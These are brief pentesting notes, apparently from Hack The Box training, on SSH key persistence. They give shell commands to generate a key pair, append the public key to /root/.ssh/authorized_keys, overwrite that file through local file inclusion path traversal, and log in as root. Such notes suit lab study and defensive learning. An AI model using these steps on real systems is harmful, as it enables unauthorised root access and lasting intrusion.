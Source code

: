 # SSH KEYS
#overwrite_authorized_keys
```
ssh-keygen

cat fileup.pub > authorized_keys

LFI to overwrite ../../../../../../root/.ssh/authorized_keys
```

```shell-session
gyrsec@htb[/htb]$ ssh-keygen -f key

gyrsec@htb[/htb]$ cat ./key.pub

user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys

gyrsec@htb[/htb]$ ssh root@[ip] -i key
```

search .ssh directory